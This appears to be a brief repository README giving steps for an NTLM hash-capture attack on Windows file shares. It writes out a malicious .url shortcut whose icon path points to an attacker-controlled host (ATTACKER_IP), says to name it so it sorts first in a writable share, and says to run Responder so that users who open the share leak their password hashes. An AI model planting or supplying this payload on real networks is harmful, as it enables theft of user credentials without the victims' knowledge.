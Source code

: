 # Overview
to execute this attack we need to have writable share and add our script in it 
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\ATTACKER_IP\%USERNAME%.icon
IconIndex=1

and name the file "@NAME.url"

and then run responder

once the user access the share file the hash will be dumped in responder